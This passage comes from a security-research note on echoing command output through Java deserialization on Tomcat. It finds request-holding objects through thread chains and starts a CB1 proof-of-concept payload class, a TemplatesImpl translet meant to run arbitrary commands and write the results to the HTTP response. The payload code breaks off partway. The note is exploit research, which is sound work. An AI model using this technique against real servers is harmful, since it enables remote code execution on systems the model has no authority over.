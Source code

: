 ```java
	    }  
	}
}
```
Send a post request with `data=(any base64 content)` in body. While intercepted at `readObject`, push *Alt+F8* in IDEA and evaluate the following code fragment:
```java
List<Keyword> keys = new ArrayList<>();  
keys.add(new Keyword.Builder().setField_type("Request").build());  
keys.add(new Keyword.Builder().setField_type("RequestInfo").build());  
keys.add(new Keyword.Builder().setField_type("RequestGroup").build());  
keys.add(new Keyword.Builder().setField_type("RequestGroupInfo").build());  
keys.add(new Keyword.Builder().setField_type("ServletRequest").build());  
  
SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(), keys);  
searcher.setIs_debug(false);  
searcher.setMax_search_depth(20);  
searcher.setReport_save_path("D:\\Files\\Java_WorkSpace\\Webapp-for-tomcat9\\webapp-for-tomcat9");  
searcher.searchObject();
```
After done without any exception, we can find the result in folder:
```
TargetObject = {org.apache.tomcat.util.threads.TaskThread}   
  ---> group = {java.lang.ThreadGroup}   
   ---> threads = {class [Ljava.lang.Thread;}   
    ---> [3] = {java.lang.Thread}   
     ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller}   
      ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint}   
        ---> handler = {org.apache.coyote.AbstractProtocol$ConnectionHandler}   
         ---> global = {org.apache.coyote.RequestGroupInfo}

TargetObject = {org.apache.tomcat.util.threads.TaskThread}   
  ---> group = {java.lang.ThreadGroup}   
   ---> threads = {class [Ljava.lang.Thread;}   
    ---> [3] = {java.lang.Thread}   
     ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller}   
      ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint}   
        ---> handler = {org.apache.coyote.AbstractProtocol$ConnectionHandler}   
         ---> global = {org.apache.coyote.RequestGroupInfo}   
          ---> processors = {java.util.ArrayList<org.apache.coyote.RequestInfo>}   
           ---> [0] = {org.apache.coyote.RequestInfo}
...

```
The `TargetObject` of each chain is the start point for searching. Every line presents a member of parent. And in the last row we can find the target class.
Next I will reproduce the first chain as above to get the echo from deserialization vul.

### Proof of Concept
Let's put concepts into practice. I have prepared a Tomcat server vulnerable to [[Java Deserialize Vulnerabilities ysoserial study#CommonsBeanutils|CB1]]. I will write an evil class to perform according to the first echo chain as above to execute arbitrary command and write the result to response.
Take a recall to CB1, which uses `TemplatesImpl` as sink, so our evil class named `TomcatEchoPayload` should extend `AbstractTranslet` class and write main code in its constructor:
```java
java.lang.Thread thread = java.lang.Thread.currentThread();  
java.lang.ThreadGroup threadGroup = thread.getThreadGroup();  
java.lang.Thread[] threads = (java.lang.Thread[]) TomcatEchoPayload.getFieldValue(threadGroup, "threads");  
  
for (int i = 0; i < threads.length; i++) {  
    java.lang.Thread th = threads[i];  
    Object target = TomcatEchoPayload.getFieldValue(th, "target");  
```

[^1]: [探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖](https://tttang.com/archive/1405/#toc_0x02-xxe-rce)
[^2]: [半自动化挖掘request实现多种中间件回显 | 回忆飘如雪](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
[^3]: [Java反序列化回显学习之Tomcat通用回显 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/200930.html)